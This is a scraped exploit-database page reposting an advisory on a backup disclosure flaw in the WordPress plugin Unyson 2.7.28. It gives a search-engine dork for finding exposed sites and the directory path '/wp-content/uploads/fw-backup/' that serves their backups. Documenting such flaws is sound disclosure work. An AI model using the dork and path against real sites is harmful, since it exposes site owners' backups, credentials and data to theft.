 ```yaml
---
title: WordPress Unyson 2.7.28 Backup Disclosure exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172942&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-17
fetch_date: 2025-10-04T11:44:34.764369
---
```


# WordPress Unyson 2.7.28 Backup Disclosure exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress Unyson 2.7.28 Backup Disclosure

2023-06-16 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172942
====================================================================================================================================
| # Title : WordPress - Unyson 2.7.28 Backup Disclosure Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 108.0.2(64-bit) |
| # Vendor : http://unyson.io/ |
| # Dork : "Index of /wp-content/uploads/fw-backup" |
====================================================================================================================================

P0C :

[+] WordPress - Unyson 2.7.28 appears to leave backups in a world accessible directory under the document root.

[+] Dorking İn Google Or Other Search Enggine.

[+] Use payload : "/wp-content/uploads/fw-backup/"

[+] https://127.0.0.1/dugaidealba/wp-content/uploads/fw-backup/

Greetings to :=========================================================================================================================
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm * thelastvvv *Zigoo.eg |
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)